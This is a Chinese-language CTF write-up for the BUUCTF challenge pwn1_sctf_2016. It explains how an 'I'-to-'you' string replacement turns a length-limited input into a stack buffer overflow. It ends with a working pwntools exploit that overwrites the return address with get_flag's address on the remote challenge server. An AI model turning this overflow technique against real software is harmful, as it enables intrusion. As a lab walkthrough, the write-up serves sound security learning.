 # [[Buuctf]pwn1_sctf_2016](https://buuoj.cn/challenges#pwn1_sctf_2016)

## 知识点


## 解题步骤

1. `nc`连接试一试

![](./img/sctf_nc.png)     

- 程序会输出用户的输入  

2. 照例看一下程序开了哪些保护机制      
- 程序只开启了`NX`保护（无法直接执行`shellcode`）     
- 程序为`32`位    

![](./img/nx保护.png)      

3. 使用`ida`查看一下程序的`字符串`相关信息             

- `strings`窗口中出现了`cat flag.txt`     

![](./img/cat_flag.png)       

4. `ctrl+x`查看那个函数调用了这个字符串     

- `get_flag`函数调用了`cat flag.txt`      

![](./img/srf_getflag.png)        

- `get_flag`的地址`08048F0D`    

![](./img/找到溢出地址.png)     

5. 查看一下`主函数`的伪代码        

- `fgets`：会从`edata`中取**32**个字节到`s`里面     
- 如果想从`s`溢出，需要填满`3c(60)字节`，但是`fgets`限制了输入为`32`字节，无法造成溢出          

![](./img/stp_main.png)       

6. 但是函数中有一个关键点
```c++
// 我的ida不知为何转换成伪代码时转换成这个样子……
// replace((std::string *)v3);
replace(&v4,&input,&v7)   //用&v7对应的字符串，替换掉从&v4开始，长度为&input
```
- 他人的博客解释说指会将`I`替换成`you`，虽然没从提供的代码中逻辑中看出来这一点，但是实验一下的确是            

![](./img/i_to_you.png)        

- 当输入的`I`被转化成`you`后，那么`60`个字节只需要`20`个`I`，就可以到达`ebp`，然后再用`4`字节进行替换，就可以覆盖返回地址为输出flag的函数地址，就可以完成利用
7. 完成`exp`
```python
from pwn import*

r=remote("node4.buuoj.cn",28076)
flag_addr=0x8048f0d
payload=b'I'*20+b'aaaa'+p32(flag_addr)  # b：防止python3运行时报错
r.sendline(payload)

r.interactive()

```

![](./img/sctf_flag.png)     

## 参考资料

